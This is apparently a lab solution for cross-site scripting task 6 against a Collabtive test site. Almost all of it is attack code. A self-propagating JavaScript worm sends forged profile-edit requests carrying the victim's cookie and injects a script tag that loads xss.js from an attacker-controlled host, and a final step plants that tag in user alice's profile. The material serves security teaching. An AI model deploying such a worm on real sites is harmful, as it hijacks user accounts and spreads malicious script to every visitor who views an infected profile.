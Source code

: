 # XSS solutions

### task 6

Create xss.js file in www.csrflabattacker.com root directory.

```javascript
var on=new Ajax.Updater("onlinelist","manageuser.php?action=onlinelist",
    {method:'get',
    onSuccess:function(transport){
        username=transport.responseText.replace(/<\/?[^>]+(>|$)/g, "").trim();
        var ajax=new XMLHttpRequest();
        ajax.open('POST','http://www.xsslabcollabtive.com/manageuser.php?action=edit',true);
        ajax.setRequestHeader('Host','www.xsslabcollabtive.com');
        ajax.setRequestHeader('Keep-Alive','300');
        ajax.setRequestHeader('Connection','keep-alive');
        ajax.setRequestHeader('Cookie',document.cookie);
        ajax.setRequestHeader('Content-Type','application/x-www-form-urlencoded');
        var content='name=' + username + '&company=<script src="http://www.csrflabattacker.com/xss.js"></script>&email=' + username + '.xss@email.com' ;
        ajax.send(content);
    }});
```

add blow line in company field of user alice's profile:
```html
<script src="http://www.csrflabattacker.com/xss.js"></script>
```